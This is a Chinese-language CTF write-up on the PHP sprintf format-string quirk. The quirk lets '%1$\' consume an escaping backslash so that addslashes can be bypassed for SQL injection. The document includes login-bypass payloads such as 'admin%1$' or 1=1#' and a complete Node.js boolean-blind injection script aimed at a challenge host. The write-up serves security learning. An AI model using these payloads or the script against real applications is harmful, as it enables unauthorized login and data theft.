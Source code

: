 ### PHP SPRINTF格式化字符串漏洞

### sprintf() 函数

[w3school](https://www.w3school.com.cn/php/func_string_sprintf.asp)

#### 定义和用法

sprintf() 函数把格式化的字符串写入变量中

sprintf(format,arg1,arg2,arg3)

**arg1**、**arg2**、**arg++** 参数将被插入到主字符串中的百分号（%）符号处。该函数是逐步执行的。在第一个 % 符号处，插入 **arg1**，在第二个 % 符号处，插入 **arg2**，依此类推。

**注释：**如果 % 符号多于 *arg* 参数，则您必须使用占位符。占位符位于 `%` 符号之后，由数字和 `\$ `组成

#### 例子

- 1 使用格式

```php
<?php
$number = 123;
$txt = sprintf("%f",$number);
echo $txt; // 123.000000
?>
```

- 2 使用占位符

```php
<?php
$number = 123;
$txt = sprintf("带两位小数：%1\$.2f
<br>不带小数：%1\$u",$number);
echo $txt;
// 带有两位小数：123.00
// 不带小数：123
?>
```

由于占位符位于 `%` 符号之后，由数字和 `\$ `组成，如果%后面出现一个\，那么PHP会把\当做一个格式化字符的类型而吃掉\，最后`%\`(或者`%1$\`)都会被置空，其实就是**%后的一个字符(除了%)都会被当作字符型类型而被吃掉**，也就是被当做一个类型进行匹配后面的变量，比如%c就匹配ASCII，%d匹配整形

如下图所示，在浏览器上运行此php代码，当占位符写成`%1$\`那么`%1$\`会被置空，则`.2f`会变成普通的字符输出

![](PHP_SPRINTF格式化字符串漏洞.assets/lesson1-1.png)

那么通过这个漏洞主要是能够构造语句闭合单引号，以达到SQL注入的目的

### SQL

```php
<?php
  $username = addslashes("admin%1$' or 1=1#");
  $password = "123456";
  $sql = "select * from user where username='%s'";
  $sql = sprintf($sql,$username);
  $sql = "$sql and password = '%s'" ;
  $sql = sprintf($sql,$password);
  echo $sql;
?>
```

![](PHP_SPRINTF格式化字符串漏洞.assets/less1-2.png)



运行结果为

```sql
select * from user where username='admin' or 1=1#' and password = '123456'
```

此时，`%1$\`被置空，剩下`' or 1=1 #` 闭合admin前面的单引号#后面的则被注释，在登录的时候，就是一个万能密码，可以直接登入系统

### 题目：“迎圣诞，拿大奖”活动赛题

看到登录框先试一试弱口令，测试得知用户名为admin，对username 和 password 开始注入，耗费大量时间，未找到注入点，查阅相关资料，以为有waf，则使用burp跑了一遍waf字典，发现%会出现waring，具体结果如下所示

![](PHP_SPRINTF格式化字符串漏洞.assets/less1-3.png)

发现存在sprintf漏洞，于是查阅相关资料

构造username=`admin%1$\' or 1=1#` 和 `admin%1$\' or 1=2#`

![](PHP_SPRINTF格式化字符串漏洞.assets/less1-4.png)

![](PHP_SPRINTF格式化字符串漏洞.assets/less1-5.png)

可以发现当1=1时，页面回显password error! ，当1=2时页面回显username error!，所以存在布尔注入

此时由开始写过得[SQL-LABS GET型布尔盲注脚本(node)](https://blog.csdn.net/weixin_45146120/article/details/100529826)重新修改一下代码如下

```javascript
const axios = require('axios')
const querystring = require('querystring')
const readline = require('readline')
const rl = readline.createInterface({
  input: process.stdin,
  output: process.stdout
})
async function inject(params) {
  console.log('[+]payload: ' + params.username)
  let response = await axios({
    url:
      'http://3aa979dedd07412abfde94cebeb093bddbd33708a0be4aa4.changame.ichunqiu.com/',
    method: 'post',
    data: querystring.stringify(params),
    headrs: {
      'Content-type': 'application/x-www-form-urlencoded'
    }
  })
  const regex = /password error!/
  if (regex.test(response.data)) {
    return parseInt(params.username.match(/\&\d+/)[0].replace(/\D+/, ''))
  } else {
    return 0
  }
}
async function main() {
  const sql = await new Promise((resolve, reject) => {
    rl.on('line', sql => {
      resolve(sql)
      rl.close()
    })
  })
  let flag = true
  let index = 1
  let str = ''
  let params = {
    username: '',
    password: 'admin'
  }
  while (flag) {
    let sum = 0
    for (let i = 0; i < 8; i++) {
      params.username = `admin%1$\' and ascii(substr((${sql}),${index},1))&${Math.pow(
        2,
        i
      )} = ${Math.pow(2, i)}#`
      sum += await inject(params)
    }
    if (sum !== 0) {
      str += String.fromCharCode(sum)
      index++
    } else {
      flag = false
    }
  }
  console.log('\n[+]Inject_Result:' + sql + ' = ' + str)
}
main()
```

运行结果

![](PHP_SPRINTF格式化字符串漏洞.assets/less1-6.png)

